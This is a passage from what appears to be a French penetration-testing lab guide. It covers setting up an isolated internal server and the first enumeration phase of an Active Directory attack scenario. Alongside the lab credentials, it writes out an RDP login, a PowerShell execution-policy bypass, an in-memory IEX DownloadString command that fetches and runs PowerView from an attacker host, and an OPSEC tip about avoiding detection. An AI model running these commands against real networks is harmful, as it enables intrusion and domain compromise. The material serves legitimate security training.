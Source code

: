 4. **Configuration du serveur interne (INTERNAL01) :**
   - Installer Windows Server 2019
   - Configurer l'adresse IP statique 10.0.0.200 avec passerelle 10.0.0.102
   - Installer le rôle Web Server (IIS)
   - Créer un utilisateur local "admin" avec mot de passe "AdminPass2023!"

## Scénario du lab

Vous avez obtenu un accès initial au serveur SRV01 via un compte de service compromis (svc_backup). Votre mission est d'explorer l'environnement, d'élever vos privilèges, de compromettre le contrôleur de domaine, puis de pivoter à travers le serveur Linux pour atteindre le serveur interne isolé.

## Guide étape par étape

### Phase 1 : Énumération initiale depuis SRV01 (15 minutes)

1. **Connexion initiale à SRV01**

   Depuis votre Kali Linux, établissez une connexion RDP au serveur SRV01 avec les credentials du compte compromis :

   ```bash
   xfreerdp /v:192.168.56.101 /u:svc_backup /p:"Backup2023!" /d:CORP.LOCAL
   ```

2. **Énumération du système local**

   Ouvrez une invite de commande PowerShell et exécutez les commandes suivantes :

   ```powershell
   # Informations système
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
   
   # Utilisateur actuel et privilèges
   whoami /all
   
   # Utilisateurs locaux et domaine
   net user /domain
   net group /domain
   
   # Connexions réseau
   ipconfig /all
   netstat -ano
   ```

   **Point d'attention OPSEC :** Ces commandes natives génèrent des logs d'événements Windows, mais sont considérées comme des activités administratives légitimes et rarement surveillées.

3. **Énumération Active Directory avec PowerView**

   Téléchargez et exécutez PowerView pour une énumération plus approfondie du domaine :

   ```powershell
   # Contourner la politique d'exécution PowerShell
   Set-ExecutionPolicy Bypass -Scope Process -Force
   
   # Télécharger et exécuter PowerView en mémoire
   IEX (New-Object Net.WebClient).DownloadString('http://192.168.56.10/PowerView.ps1')
   
   # Énumérer les ordinateurs du domaine
   Get-NetComputer -FullData | Select-Object dnshostname,operatingsystem
   
   # Énumérer les utilisateurs du domaine
   Get-NetUser | Select-Object samaccountname,description,memberof
   
   # Identifier les sessions actives sur le DC
   Get-NetSession -ComputerName DC01
   ```